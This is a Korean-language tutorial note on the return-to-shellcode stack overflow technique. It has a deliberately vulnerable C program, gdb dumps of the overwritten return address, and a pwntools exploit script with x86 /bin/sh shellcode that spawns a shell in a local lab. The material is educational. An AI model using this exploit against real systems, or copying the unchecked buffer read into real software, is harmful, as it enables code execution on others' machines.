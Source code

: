 ## **Concept**

Return address 영역에 Shellcode가 저장된 주소로 변조해, Shellcode 호출하는 기법이다.

### **CALL**
1. Return address를 Stack에 저장하고, 피연산자 주소로 이동.

### **RET**
1. EBP 레지스터가 가리키는 Stack 영역의 값을 RIP 레지스터에 저장
1. JMP 명령을 통해 RIP에 저장된 영역으로 이동

```
; CALL
push return_address
jmp

; RET
pop eip
jmp eip
``` 

## **Proof of Concept**  

```c
// Vuln Code
// gcc -z execstack -fno-stack-protector -o test test.c
#include <stdio.h>
#include <unistd.h>

void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 100);
}

void main(){
    vuln();
}
```

"A"62 + "B"4 입력 시 Return address 조작이 가능하다.

```
gdb-peda$ x/24wx $ebp
0xbfe98a78:	0x41414141	0x42424242	0xb7f233dc	0xbfe98aa0
```

변조된 메모리 구조.

```
gdb-peda$ x/24wx $ebp
0xbfa06f08:	0x41414141	0x42424242	0xb7eda30a	0xbfa06f30
0xbfa06f18:	0x00000000	0xb7d40637	0xb7eda000	0xb7eda000
```

ASLR 적용되어 있어 Stack 주소 랜덤하지만 지역변수 buf의 주소가 출력되므로 buf에 Shellcode 삽입하고 Return address에 buf 주소 삽입하여 Shellcode 실행할 수 있다.

## **Exploit Code**
```python
# Exploit Code
from pwn import *

p = process('./test')
recv = p.recvline()
buf = int(recv.split(' ')[3].split('\n')[0],16)
print('buf: '+hex(buf))

p.sendline('\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xcd\x80'+'A'*31+ p32(buf))
p.interactive()
```

## **Exploit**
```shell
bs@bs-virtual-machine:~/vulns/RTS$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[+] Starting local process './test': pid 16624
buf: 0xbfe9be8e
[*] Switching to interactive mode
1󿾱ٱəxb0xa4̀jx0bXQh//shh/binx89㊑̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAx8exbe
$                                                                             id
uid=0(root) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/02.Return+to+Shellcode>

